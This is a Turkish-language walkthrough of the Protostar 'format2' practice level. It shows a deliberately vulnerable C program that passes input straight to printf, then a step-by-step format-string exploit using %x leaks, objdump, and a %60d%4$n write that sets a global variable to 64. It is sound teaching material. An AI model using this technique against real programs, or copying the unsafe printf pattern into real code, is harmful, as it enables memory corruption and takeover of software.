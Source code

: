 ## Format 2
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bu aşamada program çalıştıkta sonra bizden fgets ile bir input alıyor ve bu input ile target değişkenine 64 yazmamızı istiyor. Deneme yapmaya başlayalım:
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "AAAA" + "%x "*10 ') | ./format2
AAAA200 b7fd8420 bffff524 41414141 25207825 78252078 20782520 25207825 78252078 20782520
target is 0 :(
```
4 tane A verdik ve ardından 10 tane de %x ekledik. Verdiğimiz A'lar dördüncü sırada ekrana basılmış.Peki şimdi target'ın adresini bulalım ve A lar yerine onları ekleyelim.
```bash
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$ 
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%x "*10 ') | ./format2
��200 b7fd8420 bffff524 80496e4 25207825 78252078 20782520 25207825 78252078 20782520
target is 0 :(
```
Beklediğimiz gibi dördüncü sıraya hedef adresimiz geldi. Şimdi sıra bu adrese veri yazmaya geldi. Adresimizin 4. sırada olduğunu bildiğimize göre `%4$n` ile stackde 4. sıraya gidip veri yazabiliriz.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%x "*10 +"%4$n" ') | ./format2
��200 b7fd8420 bffff524 80496e4 25207825 78252078 20782520 25207825 78252078 20782520 
target is 88 :(
```
İnputun sonuna eklediğimiz `%4$n` ile veri yazdık ancak hedefimiz olan 64'ü tutturamadık. %n kendine gelene kadar yazılan byte sayısını sayıyordu bunu biliyoruz. Bizim hedef adresimiz 4 byte, geriye 60 byte eklemek kalıyor o zaman. Eklediğimiz %x 'leri silelim ve şöyle deneyelim:
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%60d" +"%4$n" ') | ./format2
��                                                         512
you have modified the target :)
```